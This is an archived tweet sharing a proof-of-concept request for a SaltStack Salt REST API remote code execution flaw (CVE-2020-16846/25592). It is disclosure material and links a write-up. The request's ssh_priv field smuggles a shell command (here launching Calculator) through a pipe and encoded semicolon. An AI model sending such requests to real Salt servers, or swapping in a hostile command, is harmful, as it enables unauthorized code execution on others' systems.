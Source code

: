 
# wugeej
**https://twitter.com/wugeej/status/1328942729095753731 _at 2020-11-18, 06:06:51_**
<blockquote>
CVE-2020-16846
CVE-2020-25592
SaltStack Salt REST API RCE

[PoC]
POST /run HTTP/1.1
Host: [Victim:8888]
...
...

token=12312&amp;client=ssh&amp;tgt=*&amp;fun=a&amp;roster=whip1ash&amp;ssh_priv=aaa|open%20/System/Applications/Calculator.app%3b

https://t.co/jdgIUFSW6x https://t.co/s7xlLDkHDX
</blockquote>

* https://paper.seebug.org/1398/

<table><tr>
<td><img src="pictures/0e523a4e2cb7ab311900e7d441a08460f4136b6ff0795fb81bf30f9f95daa8bb.jpg" alt="0e523a4e2cb7ab311900e7d441a08460f4136b6ff0795fb81bf30f9f95daa8bb.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>19</code></td>
<td>Favorites: <code>52</code></td>
</tr></table>

---